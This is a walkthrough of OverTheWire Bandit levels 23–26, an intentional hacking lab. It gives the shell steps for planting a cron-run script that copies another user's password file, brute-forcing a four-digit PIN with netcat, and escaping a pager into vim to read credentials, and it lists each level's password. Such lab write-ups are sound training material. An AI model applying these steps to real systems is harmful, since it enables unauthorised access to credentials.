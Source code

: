 ## bandit 23 -> 24
Run the commands:
```
ssh bandit.labs.overthewire.org -p 2220 -l bandit23
cd /etc/cron.d
ls -l
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
cd /tmp
mkdir tmp_folder
chmod 777 tmp_folder
cd tmp_folder
touch script.sh
chmod 777 script.sh
```
Open the file and write this script in it:
```
#!/bin/bash
myname=$(whoami)
cat /etc/bandit_pass/$myname >> /tmp/tmp_folder/password
```
Run the commands:
```
touch password
chmod 777 password
cp script.sh /var/spool/bandit24/script.sh
```
Wait a maximum of 60 seconds. Then, run the command: ```cat password```
**Password**: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

## bandit 24 -> 25
Run the commands:
```
ssh bandit.labs.overthewire.org -p 2220 -l bandit24
for i in `seq -f '%04g' 0 9999`;  do psw=$(cat /etc/bandit_pass/bandit24); res=$(echo $psw ${i}); echo $res >> iter; done
netcat localhost 30002 < ./iter
```
**Password**: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

## bandit 25 -> 26
Run the commands:
```
ssh bandit.labs.overthewire.org -p 2220 -l bandit25
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
ssh bandit26@localhost -i bandit26.sshkey
```
**Reduce the terminal** window to print only few lines.
Run the command: ```ssh bandit26@localhost -i bandit26.sshkey```
While ```more``` is displayed, press ```v``` to exit vim. Then, run the command: ```:e /etc/bandit_pass/bandit26```
**Password**: 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
**Warning**! The password for level 27 must be grapped while logged as 26.
